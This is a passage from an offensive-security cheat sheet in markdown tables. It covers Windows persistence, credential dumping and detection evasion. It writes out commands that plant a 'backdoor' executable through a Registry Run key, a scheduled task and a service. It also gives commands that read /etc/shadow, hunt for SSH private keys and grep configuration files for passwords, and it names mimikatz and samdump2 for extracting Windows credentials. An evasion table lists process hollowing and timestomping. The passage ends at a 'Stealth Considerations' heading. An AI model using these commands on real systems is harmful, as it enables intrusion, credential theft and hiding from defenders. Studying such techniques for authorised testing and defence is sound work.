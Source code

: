 #### Windows Persistence

| Method | Command | Description |
|--------|---------|-------------|
| `Registry Run Key` | `reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\backdoor.exe"` | Startup persistence |
| `Scheduled Task` | `schtasks /create /sc onlogon /tn "backdoor" /tr "C:\backdoor.exe"` | Task scheduler |
| `Service` | `sc create backdoor binPath= "C:\backdoor.exe"` | Windows service |
| `WMI Event` | WMI event subscription | Advanced persistence |

### Credential Dumping

#### Linux Credentials

| Method | Command | Description |
|--------|---------|-------------|
| `Shadow File` | `sudo cat /etc/shadow` | Password hashes |
| `SSH Keys` | `find / -name "id_rsa*" 2>/dev/null` | Private SSH keys |
| `History Files` | `cat ~/.bash_history` | Command history |
| `Config Files` | `grep -r "password" /etc/` | Configuration passwords |

#### Windows Credentials

| Method | Tool | Description |
|--------|------|-------------|
| `LSASS Dump` | `mimikatz` | Live credential extraction |
| `SAM Database` | `samdump2` | Offline hash extraction |
| `Registry Hives` | `reg save` | Export registry hives |
| `DPAPI` | `mimikatz` | Decrypt stored credentials |

## Detection Evasion

### Anti-Detection Techniques

| Technique | Description | Example |
|-----------|-------------|---------|
| `Living off the Land` | Use built-in tools | PowerShell, WMI, certutil |
| `Memory Execution` | Run payloads from memory | PowerShell reflective loading |
| `Process Hollowing` | Inject into legitimate processes | Replace process memory |
| `Timestomp` | Modify file timestamps | Hide file creation times |

### Stealth Considerations
